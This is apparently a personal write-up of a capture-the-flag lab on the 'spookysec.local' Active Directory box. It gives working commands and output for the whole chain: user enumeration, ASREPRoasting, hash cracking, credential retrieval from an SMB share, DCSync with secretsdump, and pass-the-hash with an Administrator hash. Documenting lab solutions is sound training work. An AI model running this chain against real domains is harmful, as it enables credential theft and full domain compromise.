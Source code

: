# Active Directory
The three main tools to use for enumeration/exploitation of Active Directory is
- impacket
- Bloodhound
- Neo4j
- enum4linux

<a href="https://book.hacktricks.xyz/windows/active-directory-methodology">This</a> methodology si what I usually follow. For more information on Kerberos, check <a href="https://book.hacktricks.xyz/windows/active-directory-methodology/kerberos-authentication">this</a> out.

## Enumeration
The very first thing when performing enumeration is to perform an Nmap scan. While Nmap is an impressive tool, it cannot detect everything. Therefore after an initial nmap scan we'll be using other utilities to help us enumerate the services running on the device. 
```bash
# Nmap 7.92 scan initiated Mon Feb 21 20:41:05 2022 as: nmap -sC -sV -oN nmap/active.nmap -Pn 10.10.61.242
Nmap scan report for 10.10.61.242
Host is up (0.090s latency).
Not shown: 987 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-02-22 01:44:00Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2022-02-21T01:32:31
|_Not valid after:  2022-08-23T01:32:31
|_ssl-date: 2022-02-22T01:44:15+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2022-02-22T01:44:06+00:00
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-02-22T01:44:08
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 21 20:44:18 2022 -- 1 IP address (1 host up) scanned in 192.97 seconds

```

### Enumerate 139/445
First, enumerate 139 and 445 using enum4linux. I run enum4linux with empty credentials and as guest:
```bash
enum4linux -a 10.10.61.242 && enum4linux -a -u "guest" -p "" 10.10.61.242
```
You will also want to run smbmap with the same credentials.
```bash
smbmap -u "" -p "" -P 445 -H 10.10.61.242 && smbmap -u "guest" -p "" -P 445 -H 10.10.61.242
```

### Enumerate Users via Kerberos
Kerberros is a key authentication service within Active Directory. The main tool to enumerate users and passwords is Kerbrute. It is NOT recommended to brute force credentials due to account lockout policies. The basic syntax for Kerbrute is:
```bash
./kerbrute_linux_amd64 userenum --dc 10.10.231.233 -d spookysec.local users.txt
```
This gives us a bunch of usernames. I nice feature of this process is that it does not lock any of the user accounts. Next we'll see if we can pull any password hashes.
```bash
2022/02/21 21:48:20 >  [+] VALID USERNAME:       james@spookysec.local
2022/02/21 21:48:21 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2022/02/21 21:48:23 >  [+] VALID USERNAME:       James@spookysec.local
2022/02/21 21:48:24 >  [+] VALID USERNAME:       robin@spookysec.local
2022/02/21 21:48:32 >  [+] VALID USERNAME:       darkstar@spookysec.local
2022/02/21 21:48:36 >  [+] VALID USERNAME:       administrator@spookysec.local
2022/02/21 21:48:46 >  [+] VALID USERNAME:       backup@spookysec.local
2022/02/21 21:48:50 >  [+] VALID USERNAME:       paradox@spookysec.local
2022/02/21 21:49:20 >  [+] VALID USERNAME:       JAMES@spookysec.local
2022/02/21 21:49:29 >  [+] VALID USERNAME:       Robin@spookysec.local
2022/02/21 21:50:27 >  [+] VALID USERNAME:       Administrator@spookysec.local
2022/02/21 21:52:24 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2022/02/21 21:53:08 >  [+] VALID USERNAME:       Paradox@spookysec.local
2022/02/21 21:55:32 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2022/02/21 21:56:12 >  [+] VALID USERNAME:       ori@spookysec.local
2022/02/21 21:57:28 >  [+] VALID USERNAME:       ROBIN@spookysec.local
```

## Exploitation
Once user enumeration has finished, we can attempt to abuse a feature within Kerberos with an attack method called ASREPRoasting. ASREPRoasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account <b>does not</b> need to provide valide identification before requesting a Kerberos Ticket on the specified user account.<br><br>
Impacket has a tool called <b>GetNPUsers.py</b> that will allow us to query ASREProastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames whcih we enumerated previously via Kerbrute.
```bash
./GetNPUsers.py -no-pass -dc-ip 10.10.231.233 spookysec.local/svc-admin (FOR INDIVIDUAL REQUESTS)
OR 
./GetNPUsers.py -no-pass -dc-ip 10.10.231.233 spookysec.local/ -usersfile /home/kali/Documents/CTF/LearningPlatforms/tryhackme/active_directory/kerbrute/users.txt (FOR WORDLISTS)
```
Once we get the hash, all that's left to do is crack it:
```bash
john svc-admin_password.txt --wordlist=/usr/share/wordlists/rockyou.txt

management2005   ($krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL)
```

## Back to the Basics
With a user's account credentials we now have significantly more access within the domain. We can now attempt to enumerate shares that the domain controller may be giving out. I'll be running pretty much the same enumeration tools as before just with svc-admin:management2005 as the credentials. To login
```bash
smbmap -u "svc-admin" -p "management2005" -P 445 -H 10.10.252.24

[+] IP: 10.10.252.24:445        Name: 10.10.252.24                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        backup                                                  READ ONLY
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share
```
We can login to "backup" and gain more credentials.
```bash
smbclient \\\\10.10.252.24\\backup -U "svc-admin"

smb: \> ls  
  .                                   D        0  Sat Apr  4 15:08:39 2020
  ..                                  D        0  Sat Apr  4 15:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 15:08:53 2020
```
Viewing backup_credentials.txt gives you "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" which is a base64 encoding of "backup@spookysec.local:backup2517860"

## Elevating Privileges within the Domain
Now that we have a new user account, we may have more credentials than before. We can pivot over to "backup". Because this account is called "backup" it may be the backup account for the Domain Controller. Thios account has unique permissions that allows all Active Directory changes to be synced with this user account. This includes password hashes.<br><br>
Knowing this, we can use another tool within Impacket called "secretsdump.py". This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer. Exploiting this, we will effectively have full control over the AD Domain.
```bash
impacket-secretsdump -just-dc spookysec.local/backup:backup2517860@10.10.252.24 > user_passwords_dump.txt
```
Using a tool called evil-winrm we can log into each user with just the hash. This attack is called "Pass the Hash". Read more abou it <a href="https://book.hacktricks.xyz/windows/active-directory-methodology#pass-the-hash">here</a>.
```bash
evil-winrm -u Administrator -H 0e0363213e37b94221497260b0bcb4fc -i 10.10.252.24
```